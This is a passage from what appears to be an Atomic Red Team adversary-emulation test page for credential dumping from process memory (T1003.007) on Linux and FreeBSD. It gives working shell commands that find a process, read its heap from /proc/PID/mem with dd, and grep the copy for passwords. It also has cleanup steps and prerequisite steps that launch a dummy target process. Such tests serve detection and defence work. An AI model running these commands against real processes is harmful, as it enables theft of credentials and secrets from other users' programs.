 #### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
sh #{script_path}
PID=$(pgrep -n -f "#{pid_term}")
HEAP_MEM=$(grep -E "^[0-9a-f-]* r" /proc/"$PID"/maps | grep heap | cut -d' ' -f 1)
MEM_START=$(echo $((0x$(echo "$HEAP_MEM" | cut -d"-" -f1))))
MEM_STOP=$(echo $((0x$(echo "$HEAP_MEM" | cut -d"-" -f2))))
MEM_SIZE=$(echo $((0x$MEM_STOP-0x$MEM_START)))
dd if=/proc/"${PID}"/mem of="#{output_file}" ibs=1 skip="$MEM_START" count="$MEM_SIZE"
grep -i "PASS" "#{output_file}"
```

#### Cleanup Commands:

```sh
rm -f "#{output_file}"
```

#### Dependencies: Run with `sh`!

##### Description: Script to launch target process must exist

##### Check Prereq Commands:

```sh
test -f #{script_path}
grep "#{pid_term}" #{script_path}
```

##### Get Prereq Commands:

```sh
echo '#!/bin/sh' > #{script_path}
echo "sh -c 'echo \"The password is #{pid_term}\" && sleep 30' &" >> #{script_path}
```

<br/>
<br/>

## Atomic Test #2 - Dump individual process memory with sh on FreeBSD (Local)

Using `/proc/$PID/mem`, where $PID is the target process ID, use shell utilities to
copy process memory to an external file so it can be searched or exfiltrated later.
On FreeBSD procfs must be mounted.

**Supported Platforms:** Linux

**auto_generated_guid:** fa37b633-e097-4415-b2b8-c5bf4c86e423

#### Inputs:

| Name        | Description                                     | Type   | Default Value      |
| ----------- | ----------------------------------------------- | ------ | ------------------ |
| output_file | Path where captured results will be placed      | path   | /tmp/T1003.007.bin |
| script_path | Path to script generating the target process    | path   | /tmp/T1003.007.sh  |
| pid_term    | Unique string to use to identify target process | string | T1003.007          |
